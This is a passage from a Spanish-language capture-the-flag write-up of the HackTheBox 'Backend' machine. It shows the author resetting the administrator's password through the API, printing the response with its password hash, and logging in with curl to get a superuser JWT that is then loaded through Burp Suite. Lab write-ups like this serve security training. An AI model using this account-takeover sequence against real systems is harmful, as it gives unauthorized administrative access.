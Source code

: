 
### Reset Admin Password

Vamos a probar a cambiarle la password al administrador.

![](/assets/images/Backend/img4.png)

La respuesta es la siguiente:

```json
{ "date": null, "id": 1, "is_superuser": true, "hashed_password": "$2b$12$KONhC5XBwXMVMLsXyTSZuuFgcNkwfAFYtkyAXTKzQBB/ncO42gq4W", "guid": "36c2e94a-4271-4259-93bf-c96ad5948284", "email": "admin@htb.local", "time_created": 1649533388111, "last_update": null }
```

¿Se ha cambiado la password?  Vamos a intentar autenticarnos.

```bash
❯ curl -X POST "http://10.10.11.161/api/v1/user/login" -d 'username=admin@htb.local&password=Testing123!'
{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjc5MDY5Nzk5LCJpYXQiOjE2NzgzNzg1OTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.tySHpIHjopPp7Gf8QKz2JZFxOTNcMcXY87VQibL5yxg","token_type":"bearer"}
```

Hacemos lo mismo que antes... En el burpsuite sustituimos el token para verlo desde el navegador.

![](/assets/images/Backend/img5.png)